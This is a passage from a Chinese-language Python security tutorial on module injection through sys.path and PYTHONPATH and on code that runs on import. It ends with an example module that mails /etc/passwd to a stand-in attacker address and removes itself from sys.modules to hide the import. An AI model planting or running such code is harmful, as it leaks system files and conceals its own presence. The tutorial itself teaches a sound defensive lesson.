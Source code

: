如果一个程序员过度依赖自己的代码而不关注私有属性的不对称双下划线属性，有可能会造成极大的安全隐患。

<br>

**模块注入**

Python 模块注入系统是强大而复杂的。在搜索路径中找到由 sys.path 列表定义的文件或目录名称可以导入模块和包。搜索路径初始化是一个复杂的过程，这一过程依赖于 Python 版本、 平台和本地配置。要在一个 Python 应用程序上实行一次成功攻击，攻击者需要找到方式将恶意 Python 模块放入目录或可注入的包文件，以确保Python 可能会在尝试导入模块时“中招”。

解决方法是保持对所有目录和软件包文件搜索路径的安全访问权限，以确保未经授权的用户没有访问权限。需要记住的是，最初脚本调用 Python 解释器所在的目录会自动插入到搜索路径。

运行类似于下面的脚本显示实际的搜索路径︰



```
$ cat myapp.py
   #!/usr/bin/python
   import sys
   import pprint
   pprint.pprint(sys.path)
```

Python 程序的当前工作目录被注入的搜索路径是在 Windows 平台上，而不是脚本位置 。在 UNIX 平台上，每当从 stdin 或命令行读取程序代码 ("-"或"-c"或"-m"选项)时，当前的工作目录都会自动插入到 sys.path :



```
$ echo "import sys, pprint; pprint.pprint(sys.path)" | python -
   ['',
    '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
    '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
    ...]
   $ python -c 'import sys, pprint; pprint.pprint(sys.path)'
   ['',
    '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
    '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
    ...]
   $
   $ cd /tmp
   $ python -m myapp
   ['',
    '/usr/lib/python3.3/site-packages/pip-7.1.2-py3.3.egg',
    '/usr/lib/python3.3/site-packages/setuptools-20.1.1-py3.3.egg',
    ...]
```

通过命令行在 Windows 或通过代码上运行 Python的一个优先建议就是，明确从当前工作目录更改到一个安全目录时存在的模块注入风险。

搜索路径的另一个可能来源是 $PYTHONPATH 环境变量的内容。从过程环境对 sys.path 的方便缓存是通过 Python 解释器，因为它会忽视 $PYTHONPATH 变量的-E 选项。

<br>

**导入代码执行**

虽然看得不明显，但是导入语句实际上会导致正在导入模块中的代码执行。这就是为什么即使只是导入不信任模块都是有风险的。导入一个下面这种的简单模块都可能会导致不愉快的后果︰



```
$ cat malicious.py
   import os
   import sys
   os.system('cat /etc/passwd | mail attacker@blackhat.com')
   del sys.modules['malicious']  # pretend it's not imported
   $ python
   &gt;&gt;&gt; import malicious
   &gt;&gt;&gt; dir(malicious)
   Traceback (most recent call last):
   NameError: name 'malicious' is not defined
```
